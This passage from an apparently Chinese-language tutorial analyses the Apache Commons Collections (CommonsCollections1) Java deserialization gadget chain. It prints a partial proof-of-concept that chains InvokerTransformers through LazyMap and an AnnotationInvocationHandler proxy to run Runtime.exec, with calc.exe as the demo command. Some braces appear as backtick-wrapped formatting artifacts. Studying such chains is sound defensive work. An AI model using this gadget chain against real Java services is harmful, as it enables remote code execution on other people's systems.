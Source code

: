 这里的`memberValues`就是`TransformedMap`，在遍历`TransformedMap`里元素的时候调用了`setValue`

```
// AbstractInputCheckedMapDecorator.class
public Object setValue(Object value) `{`
    value = this.parent.checkSetValue(value);
    return super.entry.setValue(value);
`}`

// TransformedMap.class
protected Object checkSetValue(Object value) `{`
    return this.valueTransformer.transform(value);
`}`
```

所以将`transformerChain`作为参数传入`AnnotationInvocationHandler`，之后再将其反序列化即可完成调用链。

第二版的 POC 如下：

```
package ysoserial.CommonsCollections1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class LazyDemo `{`
    public static void main(String[] args) throws Exception `{`
        Transformer[] transformers = new Transformer[] `{`
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]`{`String.class, Class[].class`}`, new Object[]`{`"getRuntime", new Class[0]`}`),
                new InvokerTransformer("invoke", new Class[]`{`Object.class, Object[].class`}`, new Object[]`{`null, new Object[0]`}`),
                new InvokerTransformer("exec", new Class[]`{`String.class`}`, new Object[]`{`"C:\\Windows\\System32\\calc.exe"`}`)
        `}`;

        Transformer tranformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "1");
        Map outerMap = LazyMap.decorate(innerMap, tranformerChain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]`{`Map.class`}`, handler);
        handler = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
```